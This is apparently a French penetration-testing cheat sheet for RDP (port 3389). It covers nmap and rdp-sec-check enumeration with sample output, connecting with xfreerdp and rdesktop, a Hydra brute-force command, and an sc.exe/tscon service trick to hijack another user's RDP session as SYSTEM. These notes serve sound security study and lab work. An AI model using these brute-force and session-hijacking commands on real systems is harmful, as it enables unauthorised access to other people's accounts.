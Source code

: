 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```


Port : 3389/tcp

## Enumeration

### Nmap

```shell-session
nmap -sV -sC $TARGET_IP -p3389 --script rdp*

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info: 
|   Target_Name: ILF-SQL-01
|   NetBIOS_Domain_Name: ILF-SQL-01
|   NetBIOS_Computer_Name: ILF-SQL-01
|   DNS_Domain_Name: ILF-SQL-01
|   DNS_Computer_Name: ILF-SQL-01
|   Product_Version: 10.0.17763
|_  System_Time: 2021-11-06T13:46:00+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Outil permettant d'identifier les paramètres de sécurité d'un serveur RDP sans s'authentifier

<https://github.com/CiscoCXSecurity/rdp-sec-check>

```
$ sudo cpan
cpan[1]> install Encoding::BER
```

### RDP Security Check

```shell-session
$ git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
$ ./rdp-sec-check.pl 10.129.201.248
[+] Scanning 1 hosts

Target:    10.129.201.248
IP:        10.129.201.248
Port:      3389

[+] Checking supported protocols

[-] Checking if RDP Security (PROTOCOL_RDP) is supported...Not supported - HYBRID_REQUIRED_BY_SERVER
[-] Checking if TLS Security (PROTOCOL_SSL) is supported...Not supported - HYBRID_REQUIRED_BY_SERVER
[-] Checking if CredSSP Security (PROTOCOL_HYBRID) is supported [uses NLA]...Supported

[+] Checking RDP Security Layer

[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_NONE...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_40BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_128BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_56BIT...Not supported
[-] Checking RDP Security Layer with encryption ENCRYPTION_METHOD_FIPS...Not supported

[+] Summary of protocol support

[-] 10.129.201.248:3389 supports PROTOCOL_SSL   : FALSE
[-] 10.129.201.248:3389 supports PROTOCOL_HYBRID: TRUE
[-] 10.129.201.248:3389 supports PROTOCOL_RDP   : FALSE

[+] Summary of RDP encryption support

[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_NONE   : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_40BIT  : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_128BIT : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_56BIT  : FALSE
[-] 10.129.201.248:3389 supports ENCRYPTION_METHOD_FIPS   : FALSE

[+] Summary of security issues


rdp-sec-check v0.9-beta completed at Sun Nov  7 16:50:33 2021
```

## Connexion RDP depuis linux

Clients : `xfreerdp`, `rdesktop`, ou `Remmina`

 ```shell-session

xfreerdp /u:$AD_USER /p:$AD_PASSWORD /v:$TARGET_IP /drive:shareName,/tmp /size:1900x900 

rdesktop -u $AD_USER -p $AD_PASSWORD $TARGET_IP

```

## Attaques / Exploitations

### Exploits

- Bluekeep (fix en 2019)

### Brute force RDP avec Hydra

 ```

hydra -L user.list -P password.list rdp://$TARGET_IP

```

### RDP Session Hijacking

Objectif : basculer sur une session RDP d'une autre session RDP (sans saisie de mot de passe)
Prérequis : être administrateur local (pour pouvoir devenir SYSTEM)

```

# On récupère sa session active et celle que l'on souhaite hijacker

query user

 USERNAME              SESSIONNAME       ID  STATE   IDLE TIME  LOGON TIME

>attacker              rdp-tcp#1          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#2          2  Active          *  8/25/2021 1:28 AM

# Creation d'un service qui lancera TSCON.EXE en tant que SYSTEM
## tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#1"

# Lancement du service

net start sessionhijack

```

### RDP Pass the Hash

xfreerdp peut faire du PtH. Il est toutefois nécessaire de désactiver un mécanisme de sécurité via la base de registre.
Voir : [[Pass The Hash (PtH)]]

